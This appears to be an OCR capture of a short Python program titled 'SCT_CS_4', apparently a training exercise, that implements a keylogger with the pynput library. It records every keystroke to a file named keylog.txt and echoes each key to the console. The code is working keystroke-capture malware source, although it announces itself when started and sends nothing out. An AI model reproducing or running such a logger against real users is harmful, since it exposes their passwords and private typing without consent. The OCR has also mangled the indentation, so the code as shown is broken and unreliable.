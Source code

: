 # SCT_CS_4
    from pynput.keyboard import Listener  # Import the Listener from pynput to capture keystrokes
    import os  # Import os module for file handling

# === LOG FILE CONFIGURATION ===
    LOG_FILE = "keylog.txt"  # File where keystrokes will be stored
    def log_key(key):
"""
    Function to log keystrokes into a file.
    
   Parameters:
    - key: The key that was pressed.
    """
    try:
      # Get the character for normal keys (letters, numbers, symbols)
      
              key = key.char  
# Convert special keys (Shift, Enter, etc.) to string
    except AttributeError:
            key = str(key) 
    
  # Append the captured key to the log file
     with open(LOG_FILE, "a") as file:
        file.write(key + " ")  # Save the keypress with spacing for readability
    
  # Print the key to the console in real-time
    print(key, end=" ", flush=True)

    def main():
    """
    Main function to initialize and start the keylogger.
    """
    print("[+] Keylogger Started. Press Ctrl+C to stop.")  # Notify user that the keylogger has started
    
   # Start listening for keystrokes
    with Listener(on_press=log_key) as listener:
        try:
            listener.join()  # Keep the listener running
        except KeyboardInterrupt:
            print("\n[+] Keylogger Stopped.")  # Notify user that logging has stopped
            listener.stop()  # Stop the listener

# === RUN THE PROGRAM ===
    if __name__ == "__main__":
    main()  # Start the keylogger
